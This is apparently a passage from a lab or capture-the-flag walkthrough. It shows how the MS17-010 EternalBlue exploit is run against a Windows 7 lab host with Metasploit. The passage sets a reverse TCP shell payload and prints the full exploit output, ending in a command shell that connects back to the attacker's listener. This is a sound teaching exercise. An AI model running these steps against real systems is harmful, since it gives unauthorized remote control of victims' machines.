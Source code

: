 ```



View the full module info with the info, or info -d command.
```

### • Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

`set payload windows/x64/shell/reverse_tcp`

### With that done, run the exploit!

> _No answer needed_

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.9.203.24:4444
[*] 10.10.14.146:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.14.146:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.14.146:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.14.146:445 - The target is vulnerable.
[*] 10.10.14.146:445 - Connecting to target for exploitation.
[+] 10.10.14.146:445 - Connection established for exploitation.
[+] 10.10.14.146:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.14.146:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.14.146:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.14.146:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.14.146:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.14.146:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.14.146:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.14.146:445 - Sending all but last fragment of exploit packet
[*] 10.10.14.146:445 - Starting non-paged pool grooming
[+] 10.10.14.146:445 - Sending SMBv2 buffers
[+] 10.10.14.146:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.14.146:445 - Sending final SMBv2 buffers.
[*] 10.10.14.146:445 - Sending last fragment of exploit packet!
[*] 10.10.14.146:445 - Receiving response from exploit packet
[+] 10.10.14.146:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.14.146:445 - Sending egg to corrupted connection.
[*] 10.10.14.146:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.14.146
WARNING:  database "msf" has a collation version mismatch
DETAIL:  The database was created using collation version 2.36, but the operating system provides version 2.37.
HINT:  Rebuild all objects in this database that use the default collation and run ALTER DATABASE msf REFRESH COLLATION VERSION, or build PostgreSQL with the right library version.
[+] 10.10.14.146:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.14.146:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.14.146:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Command shell session 1 opened (10.9.203.24:4444 -> 10.10.14.146:49219) at 2024-05-23 21:29:19 +0700


C:\Windows\system32>
```
